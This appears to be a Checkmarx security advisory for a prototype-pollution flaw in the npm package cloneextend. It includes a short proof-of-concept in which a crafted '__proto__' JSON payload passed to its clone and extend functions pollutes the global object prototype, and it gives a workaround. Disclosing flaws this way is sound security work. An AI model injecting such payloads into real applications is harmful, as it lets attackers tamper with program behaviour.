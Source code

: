 ```yaml
---
title: Prototype pollution in cloneextend
date: 2021-06-28
tags:
	- "npm"
	- "prototype-pollution"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4799/
cves:
---
```

## Summary
Affected versions of cloneextend (npm) are vulnerable to prototype pollution via the clone and extend functions.

## Product
All versions of cloneextend npm package.

## Impact
If untrusted data reaches one of the affected functions, prototype pollution can be achieved. The impact will depend on the application.

## Steps to reproduce
```js
var ce = require('cloneextend');
ce.extend({},JSON.parse('{"__proto__":{"polluted":1}}'))
console.log({}.polluted)
>1
 
ce.clone(JSON.parse('{"__proto__":{"a":1}}'))
console.log({}.a)
>1
```

### Expected result:
1 will be printed to the console.

## Remediation
Currently no fix has been released. As a workaround, avoid passing untrusted inputs to the vulnerable functions.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [NPM Package](https://www.npmjs.com/package/cloneextend)

